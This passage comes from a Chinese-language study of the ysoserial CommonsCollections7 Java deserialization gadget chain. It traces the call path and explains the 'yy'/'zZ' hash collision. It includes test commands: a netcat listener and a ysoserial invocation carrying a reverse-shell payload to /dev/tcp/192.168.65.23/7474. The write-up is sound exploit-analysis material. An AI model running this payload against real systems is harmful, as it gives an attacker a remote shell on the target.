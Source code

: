 8.3.14) 简化版调用关系

--------------------------------------------------------------------------
ObjectInputStream.readObject
  Hashtable.readObject
    Hashtable.reconstitutionPut     // 1241行会先检查两个HashMap的哈希是否相等
                                    // 如果二者哈希不等，不会到达下面的流程
      AbstractMapDecorator.equals
        AbstractMap.equals
          LazyMap.get               // 此处开始LazyMap利用链
            ChainedTransformer.transform
              InvokerTransformer.transform
--------------------------------------------------------------------------

8.3.15) ysoserial/CommonsCollections7

参[52]，8u232可以得手。

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections7.java

测试:

nc -l -p 7474

java \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 \
'sh -c $@|sh any echo /bin/sh -i > /dev/tcp/192.168.65.23/7474 0<&1 2>&1' \
| nc -n 192.168.65.23 1414

初看CommonsCollections7.java时产生了一些疑问:

--------------------------------------------------------------------------
a) 初始化ChainedTransformer时能否直接指定有效形参
b) "yy"、"zZ"是怎么确定的
c) 为什么要lazyMap2.remove("yy")
--------------------------------------------------------------------------

问题a一般都是为了避免在数据准备阶段触发什么不想被触发的东西，
CommonsCollections2也曾面临类似的问题，用了不同的解决办法。

问题b，为了理解这事，我去研究了一番String和HashMap的哈希算法，确认"yy"不过
是作者随便指定的一个字符串，"zZ"则是他找到的一个哈希碰撞，二者哈希相等。长
度为2的字符串，找一个哈希碰撞很容易，暴力穷举就是了。

问题c，调试后明白了，在这个上下文中hashtable.put(lazyMap2,2)会隐式调用
lazyMap2.put("yy","yy")，导致lazyMap2与lazyMap1的哈希不再相等，前面的"yy"
与"zZ"白忙活了。为了让lazyMap2与lazyMap1的哈希恢复相等，必须
lazyMap2.remove("yy")。

为什么需要lazyMap2与lazyMap1的哈希相等？作者的注释很到位，反序列化时如果二
者哈希不等，流程不会到达LazyMap.get()。在Hashtable.reconstitutionPut()中设
个断点，动态调试一下就明白。再次强调，不要只看别人的分析，一定要亲自动手调
试，通过后者才能真正明白背后的原理。
